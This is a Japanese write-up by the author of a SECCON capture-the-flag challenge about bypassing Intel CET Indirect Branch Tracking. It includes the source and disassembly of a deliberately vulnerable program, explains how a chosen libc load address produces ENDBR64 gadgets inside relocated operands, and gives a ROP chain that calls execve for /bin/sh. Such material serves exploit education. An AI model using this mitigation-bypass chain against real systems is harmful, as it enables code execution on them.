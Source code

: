 # 問題名
pincette （Pinで作ったCET）

## テーマ
- Intel CETのIndirect Branch Tracking(IBT)で守られたプログラムvulnを攻略する
    - IBTって何？
        - `jump [rax]`とか`call rdx`みたいな間接分岐の宛先はENDBR64命令(F3 0F 1E FA)でないと落ちる仕組み。JOPやCOPで飛べる先を制限するために使われる。Tiger Lakeから実装されるぽい、未対応CPUにとってENDBR64はNOP相当（`rep hint_nop55 edx`）。
        - gccだと`-fcf-protection`オプションをつけることで関数のエントリとかがENDBR64命令になる。

## 脆弱性
vulnというプログラムにスタックバッファオーバーフローの脆弱性あり。これにより関数ポインタを書き換え、任意のアドレスに分岐可能。

### 前提
- vulnは`call rax`を実行し、`rax`は攻撃者が設定可能な状態、この宛先を適切に設定させる問題。
- vulnもlibc.soもコンパイル時に`-fcf-protection`オプションは使われていない。つまり普通にはENDBR64命令がでてこない。←そんな極端な状態でもIBTをバイパスできるケースがあることを示したい
- エクスプロイト前にlibcを配置するアドレスを指定できるようにしておく。←ASLRの最悪ケースを考えてみようという意図
    - `prelink -r 0x133700000 libc.so`とかすればlibc.soのベースアドレスを変更可能。
    - 環境変数`LD_USE_LOAD_BIAS`に1を設定しておけば、ASLRが有効なシステムでもローダーはベースアドレスを使ってくれる。
- libcは`-mcmodel=large -fno-pic`でコンパイルしておく。これにより64ビットの絶対アドレスをオペランドとして持つ命令が出力されるようになる。ロード時に再配置が発生するとリロケーションテーブルでアドレス部分が調整されるようになる。

#### ベースアドレス変更時のアセンブリの例
ベースアドレスが0x000000000のときに以下みたいな命令が
```
   5700b:       48 b8 6c 94 06 00 00    movabs $0x6946c,%rax
   57012:       00 00 00
   57015:       ff d0                   callq  *%rax
```
ベースアドレスが0x133700000になると、以下みたいになる。
```
   13375700b:   48 b8 6c 94 76 33 01    movabs $0x13376946c,%rax
   133757012:   00 00 00
   133757015:   ff d0                   callq  *%rax
```

### 脆弱なプログラムvuln
Cだとこんな感じのイメージ。readは(ENDBR64がなくて呼べないので)syscallを直接叩く。
```c
#include <unistd.h>
void _start()
{
    struct{
        char a[8];
        int (*b)(const char*,char*const*,char*const*);
        char c[16];
    } st;
    st.b = execve;
    read(0, st.a, 32);
    st.b("/bin/sh", NULL, NULL);
}
```
実際のアセンブリ。
```
0000000000401000 <_start>:
  401000:	55                   	push   rbp
  401001:	48 89 e5             	mov    rbp,rsp
  401004:	48 83 ec 20          	sub    rsp,0x20
  401008:	48 8b 05 e9 2f 00 00 	mov    rax,QWORD PTR [rip+0x2fe9]        # 403ff8 <execve>
  40100f:	48 89 45 e8          	mov    QWORD PTR [rbp-0x18],rax
  401013:	48 8d 45 e0          	lea    rax,[rbp-0x20]
  401017:	ba 20 00 00 00       	mov    edx,0x20
  40101c:	48 89 c6             	mov    rsi,rax
  40101f:	bf 00 00 00 00       	mov    edi,0x0
  401024:	b8 00 00 00 00       	mov    eax,0x0
  401029:	0f 05                	syscall
  40102b:	48 8b 45 e8          	mov    rax,QWORD PTR [rbp-0x18]
  40102f:	ba 00 00 00 00       	mov    edx,0x0
  401034:	be 00 00 00 00       	mov    esi,0x0
  401039:	48 8d 3d c0 0f 00 00 	lea    rdi,[rip+0xfc0]        # 402000 <_start+0x1000>
  401040:	ff d0                	call   rax
  401042:	90                   	nop
  401043:	c9                   	leave
  401044:	c3                   	ret
```

## 解答までの流れ
- libc.soのベースアドレスを工夫することで、命令のオペランド（64ビットの絶対アドレス）部分にENDBR64命令相当のバイト列を作り出して、そこを`call rax`の宛先にする。
- たくさんある候補から`endbr64; ... ; pop xxx; ret`な意味のガジェットを探し、それを使うことでROPに持ち込む。
    - IBTはretの戻り先は監視してない。ROP対策はIntel CETのもう一つの仕組みシャドウスタックの仕事。シャドウスタックな問題はSECCON2014オンラインで`ROP: Impossible`として出題したので今回はIBTにフォーカスした。
- raxに0x3b(execve)を設定した上でsyscallを呼ぶのが目標。
    - execveの中で`call rax`が出てくるため、IBTが有効だとexecveは呼べない。raxに0x3bを指定した上でsyscallに直接飛ぶ必要がある。
- ROPチェーンはこんな感じ（baseaddrは`0x04fa1dfe0000`）。
    - payload += pwn.p64(baseaddr+0x87a39)    # pop rcx ; sal ebx, 0xf ; pop rax ; fmul st(1) ; ret
    - payload += pwn.p64(baseaddr+0x8cbb4)    # endbr ; ... ; pop ebp ; ret
    - payload += pwn.p64(0x3b)                # rax for syscall (execve)
    - payload += pwn.p64(baseaddr+0x57ca8)    # syscall


## 参考資料
- https://software.intel.com/sites/default/files/managed/4d/2a/control-flow-enforcement-technology-preview.pdf

## 問題文
```
pincette.chal.seccon.jp:10000
```

## FLAG
FLAGファイルを参照。

## 検討した事項
- Intel CETの実装方法
    - 以下の理由からIntel Pinで自分で実装することにした。
        - 実機
            - 未発売。
        - qemu
            - 実装がない。やるなら自分で実装。問題としてはベースとなったqemuとパッチを提示？
        - bochs
            - 実装あるけどシステムエミュレーションで大掛かり。
        - Intel SDE
            - Intel PinベースなのでNXビットが無効になっていることに注意。コード領域であることをきちんと監視できるpintoolを組み込めればよいが、独自pintoolを組み込む正規な方法がないっぽい。
        - Intel Pin
            - コード領域の監視も含めpintoolとして実装。pintoolのソースを出すだけで問題の意図が伝わっていい感じ。
- 使うlibcについて
    - 要件と実現方法
        - アドレスを命令中の即値としてもたせる
            - -fno-picでコンパイルすればよい
        - 命令中のアドレスを64ビット幅にする（32ビット幅だと64ビット空間で再配置できないため）
            - -mcmodel=largeでコンパイルすればよい
        - 望んだ場所にロードさせる
            - prelinkを使えばよい
            - ASLRが有効な場合は環境変数`LD_USE_LOAD_BIAS=1`として実行すればよい
    - その他問題と解決方法
        - TLSを使うと64ビットで-fno-picは使えなくなるっぽい。
            - TLS(__threadな変数とか)を使っていないmusl libcを使う。glibcはTLS使っててだめだった。
        - musl付属のldはlibc.soの再配置時のコード領域書き換えに未対応っぽい（書き込み可能にせずに書こうとして落ちてる？）
            - 気持ち悪いけどldはGNU版を使う。
- Intel Pinでの実装上の注意
    - NXビットが無効になる
        - pintoolでRIPの範囲を監視しvulnやlibcのコード領域のみに制限すればきっと大丈夫。
    - JITコンパイル結果が上書きされるとpintoolでの制御自体が無意味になる
        - execve呼ぶ(raxの設定とsyscall呼び出し)よりJITコンパイル結果を上書きする方が大変なので気にしない
